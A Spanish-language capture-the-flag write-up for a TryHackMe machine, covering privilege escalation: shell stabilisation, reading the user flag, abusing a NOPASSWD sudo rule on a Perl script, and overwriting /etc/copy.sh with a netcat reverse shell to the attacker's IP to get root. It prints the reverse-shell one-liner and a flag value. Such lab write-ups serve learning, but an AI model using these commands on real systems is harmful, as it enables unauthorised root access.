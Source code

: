 
# Privilege escalation
Para mejorar la estabilidad de la terminal, podemos usar el siguiente comando:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
Si navegamos a la carpeta /home, encontraremos al usuario 'itguy'. En su directorio home, hallaremos la flag de usuario
```bash
pwd
/home/itguy
www-data@THM-Chal:/home/itguy$ cat user.txt
cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}
```
Para obtener acceso como root, lo primero que haremos será comprobar los permisos del usuario actual utilizando sudo -l.
```bash
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
Podemos ver que tenemos permisos para ejecutar un script llamado 'backup.pl' utilizando Perl
```bash
cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
www-data@THM-Chal:/home/itguy
```
Observamos que el script se utiliza para ejecutar otro llamado 'copy.sh'. Ahora vamos a revisar su contenido
```bash
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
Este script contiene un shell inverso. Todo lo que tenemos que hacer es reemplazar la dirección IP y el puerto por los nuestros. Para modificarlo, editamos el que ya tenemos
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.248.133 1234 >/tmp/f' > /etc/copy.sh
```
Revisamos su contenido nuevamente para asegurarnos de que tenga la dirección IP y el puerto correctos
```bash
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.248.133 1234 >/tmp/f
```
Ahora que hemos modificado el archivo, en otra terminal iniciamos la escucha utilizando Netcat
```bash
nc -lvnp 1234
```
Ahora ejecutamos el script que activará nuestra shell
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```
Finalmente, hemos obtenido acceso como root, y encontramos la flag 'root.txt' en el directorio /root
```bash
└─$ nc -lvnp 1234
listening on [any] 1234 ...
```